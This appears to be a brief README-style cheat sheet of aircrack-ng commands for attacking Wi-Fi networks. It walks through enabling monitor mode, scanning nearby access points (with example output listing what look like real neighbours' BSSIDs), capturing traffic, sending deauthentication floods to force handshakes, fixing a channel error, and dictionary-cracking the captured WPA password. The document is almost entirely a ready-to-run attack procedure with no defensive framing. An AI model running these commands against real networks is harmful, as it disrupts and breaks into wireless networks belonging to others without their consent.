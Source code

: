 ### enable monitor mode
```
sudo ifconfig wlan0 down
sudo airmon-ng start wlan0
```



### airodump-ng scanning
```
sudo airodump-ng wlan0mon

# ex)
# 70:5D:CC:65:45:C2 - 305
# 88:36:6C:90:F4:DE - Iptime
# 70:5D:CC:6C:F2:80 - O
# 70:5D:CC:8A:A2:7E - iptime
# 80:4E:81:0A:75:83 - my phone
```


### save traffic packets
```
sudo airodump-ng --bssid 00:00:00:00:00:00 -w filename wlan0mon
```


### execute aireplay-ng
```
sudo aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon

# ex)
# sudo aireplay-ng --deauth 100 -a 70:5D:CC:65:45:C2 wlan0mon
```


### aireplay-ng error : (wlan0mon is on channel 2, but the AP uses channel 5)
```
sudo airmon-ng start wlan0mon 5
or)
sudo iwconfig wlan0mon channel 5
```



### crack password
```
sudo aircrack-ng filename.cap -w dict.lst
```
